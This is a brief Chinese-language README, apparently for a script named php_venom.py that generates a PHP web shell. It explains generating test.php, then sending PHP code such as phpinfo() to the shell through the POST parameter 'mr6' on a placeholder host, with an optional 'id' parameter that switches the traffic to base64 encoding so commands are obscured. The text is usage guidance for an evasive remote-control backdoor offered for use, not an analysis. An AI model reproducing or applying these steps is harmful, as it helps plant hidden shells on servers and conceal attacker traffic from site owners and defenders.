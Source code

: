 
## 使用方法

 python3 php_venom.py > test.php
 
   即可在同目录生成 test.php
   
 ## 3.0 使用说明：
 
 是否传入id参数决定是否把流量编码
 
 ```
http://www.xxx.com/shell.php  
POST: mr6=phpinfo();  //与普通shell相同

http://www.xxx.com/shell.php?id=xxx(xxxx随便修改)

POST: mr6=cGhwaW5mbygpOwo=  //payload的base64编码
```

 

